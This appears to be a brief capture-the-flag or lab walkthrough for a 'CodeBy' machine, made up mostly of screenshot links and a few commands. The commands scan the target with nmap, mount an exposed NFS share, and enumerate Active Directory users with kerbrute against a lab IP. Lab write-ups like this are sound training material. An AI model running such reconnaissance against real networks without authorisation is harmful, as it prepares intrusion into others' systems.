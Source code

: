 ![image](https://github.com/stensil4rt/CodeBy/assets/62753044/e9f885fc-46ae-4438-8147-55ddccd9d2bb)

```
nmap -p- 192.168.2.9 -v -sC -sV
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/3f135770-5829-4738-8ae3-21ee2b0d72cb)

```
showmount -e 192.168.2.9
sudo mkdir /mnt/it_stuff
```

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/87e21d95-1046-46f1-a021-7ec017b15afe)

```
sudo mount -t nfs 192.168.2.9:/it_stuff /mnt/it_stuff -o nolock
sudo ls -la /mnt/it_stuff
sudo ls -la /mnt/it_stuff/Scripts
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/edd45ec3-db92-4e59-a9a2-8eb0caac3cd1)

```
./kerbrute_linux_amd64 userenum -d codeby.cdb --dc 192.168.2.9 user.txt
```

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/c648b73b-a853-4d2b-959c-5e1d21192ea7)

